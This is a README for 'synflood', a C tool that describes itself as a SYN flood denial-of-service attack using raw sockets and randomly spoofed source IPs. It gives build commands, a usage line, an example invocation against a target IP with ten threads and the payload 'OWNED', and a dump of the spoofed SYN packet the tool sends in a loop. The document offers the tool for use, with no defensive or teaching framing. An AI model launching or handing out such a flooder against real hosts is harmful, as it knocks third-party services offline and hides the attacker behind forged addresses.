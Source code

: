 # synflood
SYN flood denial-of-service (DoS) attack coded in C using raw sockets. Generates random spoofed IPs at each new packet.

## Build

`make clean` <br>
`make`

## Usage

`sudo ./synflood <target_ip_address> <payload> <number_of_threads> <port_number>`

## Example

`sudo ./synflood 1.2.3.4 OWNED 10 80`

Will create 10 threads which will send the following TCP/IP packet in loop:

```
***********************TCP Packet*************************

Ethernet Header
   |-Destination Address : XX-XX-XX-XX-XX-XX
   |-Source Address      : XX-XX-XX-XX-XX-XX  
   |-Protocol            : 8

IP Header
   |-IP Version        : 4
   |-IP Header Length  : 5 DWORDS or 20 Bytes
   |-Type Of Service   : 0
   |-IP Total Length   : 54  Bytes(Size of Packet)
   |-Identification    : 6082
   |-TTL               : 255
   |-Protocol          : 6
   |-Checksum          : 55149
   |-Source IP         : xxx.xxx.xxx.xxx
   |-Destination IP    : 1.2.3.4

TCP Header
   |-Source Port          : 28659
   |-Destination Port     : 80
   |-Sequence Number      : 0
   |-Acknowledge Number   : 0
   |-Header Length        : 5 DWORDS or 20 BYTES
   |-Urgent Flag          : 0
   |-Acknowledgement Flag : 0
   |-Push Flag            : 0
   |-Reset Flag           : 0
   |-Synchronise Flag     : 1
   |-Finish Flag          : 0
   |-Window               : 5840
   |-Checksum             : 41290
   |-Urgent Pointer       : 0

                        DATA Dump                         
Data Payload
    4F 57 4E 45 44 00 00 00 00 00 00 00 00 00               OWNED.........
```
